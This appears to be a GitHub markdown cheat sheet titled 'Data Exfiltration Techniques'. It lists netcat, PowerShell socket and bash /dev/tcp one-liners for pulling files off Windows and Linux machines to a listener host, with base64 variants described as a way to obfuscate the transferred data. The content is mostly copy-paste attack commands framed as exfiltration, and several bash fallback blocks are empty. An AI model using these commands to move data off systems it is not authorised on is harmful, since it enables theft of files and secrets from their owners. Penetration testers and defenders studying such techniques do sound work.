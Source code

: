 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***
***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the Linux host:

```
nc -lp %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```
###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the Linux host:

```
nc -lp %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the Windows host:

```
$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the Windows host:

```
$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```

***
***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the Linux host:

```
nc -lp port > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
cat /path/to/sending/file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the Linux host:

```
nc -lp %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
base64 -w0 /path/to/sending/file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

***

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the Linux host:

```
nc -q 0 -lp %ListenerPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the Linux host:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```
